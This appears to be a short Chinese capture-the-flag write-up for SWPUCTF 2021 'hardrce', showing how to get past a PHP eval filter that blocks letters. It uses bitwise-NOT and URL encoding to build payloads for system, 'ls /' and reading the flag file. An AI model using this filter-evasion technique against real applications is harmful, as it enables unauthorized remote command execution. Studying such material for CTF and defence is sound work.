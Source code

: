 # 16.[SWPUCTF 2021 新生赛]hardrce

题目是一个无字母RCE绕过，前面做过rce漏洞的题目，通过eval函数构造执行就可以了，但是此题目会屏蔽某些特殊符号和大小写字母

![1744646734590](image/NSS/1744646734590.png)

不论如何先尝试一下,发现被过滤了

```
/?wllm=system('pwd');
```

可以通过异或，取反来绕过（~可以进行取反，然后通过urlencode函数变成url编码)

```
<?php
$a=urlencode(~'system');
$c=urlencode(~'ls /');
$b=urlencode(~'cat /flllllaaaaaaggggggg');
echo $a;
echo $c;
echo $b;
//echo '(~'.$a.')'.'(~'.$b.')';
?>
```

